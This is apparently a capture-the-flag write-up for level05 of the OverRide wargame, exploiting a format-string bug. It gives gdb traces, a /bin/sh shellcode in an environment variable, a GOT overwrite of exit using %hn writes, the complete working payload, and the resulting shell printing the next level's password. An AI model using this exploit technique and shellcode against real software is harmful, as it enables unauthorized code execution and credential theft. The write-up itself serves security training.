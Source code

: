 # level05

We can see that program takes an input and XOR each byte with 32 if it is between 'A' and 'Z'. It is a `toLower` like function:

```gdb
(gdb) r
Starting program: /home/users/level05/level05 

AAAAAAAAAAA
Breakpoint 1, 0x0804847a in main ()
=> 0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
(gdb) x/s $eax
0xffffd4b8:	 "AAAAAAAA\n"

Breakpoint 2, 0x08048507 in main ()
=> 0x08048507 <+195>:	call   0x8048340 <printf@plt>
(gdb) x/wx $esp
0xffffd490:	0xffffd4b8
(gdb) x/s 0xffffd4b8
0xffffd4b8:	 "aaaaaaaa\n"
```

Then, it pass the result string in `printf` as the only argument.

We try to found the direct access parameter:

```bash
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
```

Our string is printed at the 10th parameter.

We put our shellcode in an environment variable and find its address:
  
```bash
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")  
```

```gdb
(gdb) x/s *((char **)environ+0)  
0xffffd74a:      "EXPLOIT=<...>"  

adresse exploit: 0xffffd74a  
  
(gdb) p/x 0xffffd74a+200  
$2 = 0xffffd812
```
  
Let's find exit function address:

```gdb
(gdb) info function exit  
All functions matching regular expression "exit":  
  
Non-debugging symbols:  
0x08048370  exit  
0x08048370  exit@plt  
...
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
(gdb) x/wx 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

Let's try to overwrite `exit` jump:

```gdb
Starting program: /home/users/level05/level05 <<<$(python -c "print '\xe0\x97\x04\x08' + '%4294957070x%10\$n'")

Breakpoint 1, 0x08048507 in main ()
(gdb) x/2wx 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376      0xf7e45420
(gdb) c
Continuing.

Breakpoint 2, 0x0804850c in main ()
(gdb) x/2wx 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376      0xf7e45420
```

We can see that the address has not been overwritten. We need to split it to lower value.

We split the address and substract the two address that will be printed. For the 2nd value, we substract the length already written: 

```gdb
(gdb) p/x 4294957070
$1 = 0xffffd80e
(gdb) p/d 0xd80e
$2 = 55310
(gdb) p/d 0xd80e - 8
$3 = 55302
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55310  
$6 = 10225
```

```gdb
Starting program: /home/users/level05/level05 <<<$(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55302u%10$hn" + "%10225u%11$hn")')

Breakpoint 1, 0x08048507 in main ()
(gdb) x/2wx 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376      0xf7e45420
(gdb) c
...
Breakpoint 2, 0x0804850c in main ()
(gdb) x/2wx 0x80497e0
0x80497e0 <exit@got.plt>:       0xffffd80e      0xf7e45420
(gdb) x/12wx 0xffffd80e
0xffffd80e:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd81e:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd82e:     0x90909090      0x90909090      0x90909090      0x90909090
```

Exit seems to have been overwritten. Let's try to exploit:

```bash
level05@OverRide:~$ (python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55302u%10$hn" + "%10225u%11$hn")'; cat) | ./level05
<...>  
whoami 
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
